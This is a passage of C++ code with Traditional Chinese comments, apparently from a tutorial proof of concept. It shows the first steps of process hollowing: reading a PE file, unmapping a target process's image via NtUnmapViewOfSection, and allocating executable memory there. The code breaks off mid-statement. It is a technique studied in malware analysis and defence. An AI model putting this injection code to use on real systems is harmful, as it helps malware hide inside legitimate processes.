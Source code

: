 ```cpp=
    PLOADED_IMAGE pImage = ReadRemoteImage(pProcessInfo->hProcess, pPEB->ImageBaseAddress);


    // 2. 讀取要注入的檔案
    HANDLE hFile = CreateFileA
    (
        pSourceFile,
        GENERIC_READ, 
        0, 
        0, 
        OPEN_ALWAYS, 
        0, 
        0
    );
    if (hFile == INVALID_HANDLE_VALUE)
    {
        printf("Error opening %s\r\n", pSourceFile);
        return;
    }
    DWORD dwSize = GetFileSize(hFile, 0);
    PBYTE pBuffer = new BYTE[dwSize];
    DWORD dwBytesRead = 0;
    ReadFile(hFile, pBuffer, dwSize, &dwBytesRead, 0);

    // 取得 File Header 和 Optional Header
    // File Header 和 Optional Header 各是 NT Header 的其中一個成員，NT Header 則是從 DOS Header 算出來的
    PLOADED_IMAGE pSourceImage = GetLoadedImage((DWORD)pBuffer);
    PIMAGE_NT_HEADERS32 pSourceHeaders = GetNTHeaders((DWORD)pBuffer);


    // 3. Unmap 目標 Process 的記憶體
    // 從 ntdll.dll 中取出 NtUnmapViewOfSection
    HMODULE hNTDLL = GetModuleHandleA("ntdll");
    FARPROC fpNtUnmapViewOfSection = GetProcAddress(hNTDLL, "NtUnmapViewOfSection");
    _NtUnmapViewOfSection NtUnmapViewOfSection =
        (_NtUnmapViewOfSection)fpNtUnmapViewOfSection;
    DWORD dwResult = NtUnmapViewOfSection
    (
        pProcessInfo->hProcess, 
        pPEB->ImageBaseAddress
    );
    if (dwResult)
    {
        printf("Error unmapping section\r\n");
        return;
    }


    // 4. 在目標 Process 申請一塊記憶體
    // Process 是目標 Process 的 Handle
    // lpAddress 是原本被 Unmap 的 Image 的 Base Address
    // dwSize 是我們要注入的檔案大小
    // flAllocationType　是　MEM_COMMIT | MEM_RESERVE
    // flProtect 可以針對不同的記憶體區段去做配置，不過 POC 方便起見，直接用 PAGE_EXECUTE_READWRITE
    PVOID pRemoteImage = VirtualAllocEx
    (
        pProcessInfo->hProcess,
        pPEB->ImageBaseAddress,
        pSourceHeaders->OptionalHeader.SizeOfImage,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
    );
    if (!pRemoteImage)
```
